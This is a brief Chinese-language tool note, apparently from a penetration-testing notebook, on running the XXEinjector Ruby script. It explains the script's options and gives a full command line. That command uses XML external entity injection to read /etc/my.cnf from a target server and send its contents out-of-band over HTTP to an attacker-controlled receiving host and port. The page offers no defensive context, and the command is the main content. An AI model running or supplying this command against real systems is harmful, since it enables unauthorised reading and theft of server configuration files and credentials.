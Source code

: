#### xxeinject.rb使用

xxeinject --file=文件地址  --path=读取目标文件  --host=攻击的接收服务器                                               

```ruby
ruby XXEinjector.rb --file=D:\safetools\注入\XXEinjector\xxe2.txt --path=/etc/my.cnf --host=172.16.12.182 --httpport=9999 --phpfilter --verbose --oob=http
```

![image-20210802180312579](0x007ssrf/image-20210802180312579.png)
